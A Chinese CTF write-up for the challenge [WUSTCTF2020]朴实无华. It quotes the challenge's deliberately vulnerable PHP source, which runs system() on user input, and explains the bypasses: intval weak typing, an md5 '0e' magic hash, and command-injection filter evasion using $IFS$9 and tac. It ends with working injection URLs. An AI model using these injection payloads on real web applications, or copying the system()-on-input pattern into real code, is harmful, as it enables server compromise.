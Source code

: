 # [WUSTCTF2020]朴实无华

## 知识点

`php代码审计`

`命令执行绕过`

`md5 0e`

`科学计数法弱类型`

## 解题

在`robots.txt`中发现文件`/fAke_f1agggg.php`

`bp`抓包在相应头中发现`/fl4g.php`,访问获得`php源码`

```php
if (isset($_GET['num'])){
    $num = $_GET['num'];
    if(intval($num) < 2020 && intval($num + 1) > 2021){
        echo "我不经意间看了看我的劳力士, 不是想看时间, 只是想不经意间, 让你知道我过得比你好.</br>";
    }else{
        die("金钱解决不了穷人的本质问题");
    }
}else{
    die("去非洲吧");
}
//level 2
if (isset($_GET['md5'])){
   $md5=$_GET['md5'];
   if ($md5==md5($md5))
       echo "想到这个CTFer拿到flag后, 感激涕零, 跑去东澜岸, 找一家餐厅, 把厨师轰出去, 自己炒两个拿手小菜, 倒一杯散装白酒, 致富有道, 别学小暴.</br>";
   else
       die("我赶紧喊来我的酒肉朋友, 他打了个电话, 把他一家安排到了非洲");
}else{
    die("去非洲吧");
}

//get flag
if (isset($_GET['get_flag'])){
    $get_flag = $_GET['get_flag'];
    if(!strstr($get_flag," ")){
        $get_flag = str_ireplace("cat", "wctf2020", $get_flag);
        echo "想到这里, 我充实而欣慰, 有钱人的快乐往往就是这么的朴实无华, 且枯燥.</br>";
        system($get_flag);
    }else{
        die("快到非洲了");
    }
}else{
    die("去非洲吧");
}
?>
```

`php`弱类型与过滤绕过

`intval`函数，此函数在处理数据时会在接触到字符串时停止，因此如果输入`100e2`之类的数据，会解释称`100`，但后面在执行`+1`时，`100e2`是解释称`10000`的，因此此处使用`100e2`绕过，结果如下：

`md5`与自己的`md5`值相同,均为`0e`开头即可

```
0e215962017
```

最后`get_flag`这里过滤了`空格`和`cat`

`空格`用`$IFS$9`绕过

`cat`用`tac`或者`ca?`绕过

```
fl4g.php?num=100e2&md5=0e215962017&get_flag=tac$IFS$9fllllllllllllllllllllllllllllllllllllllllaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag 

fl4g.php?num=100e2&md5=0e215962017&get_flag=tac$IFS$9f*
```




